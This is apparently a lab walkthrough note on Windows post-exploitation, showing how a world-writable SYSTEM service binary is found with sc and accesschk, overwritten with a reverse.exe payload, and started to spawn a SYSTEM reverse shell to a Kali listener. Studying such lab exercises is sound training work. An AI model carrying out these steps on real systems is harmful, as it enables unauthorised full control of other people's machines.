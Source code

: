 ```yaml
---
tags:
  - PostExploitation
  - OperatingSystems
---
```



1. Query the "filepermsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).

```
sc qc filepermsvc
```

2. Using accesschk.exe, note that the service binary (BINARY_PATH_NAME) file is writable by everyone:

```
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

3. Copy the reverse.exe executable you created and replace the filepermservice.exe with it:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

4. Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

```
net start filepermsvc
```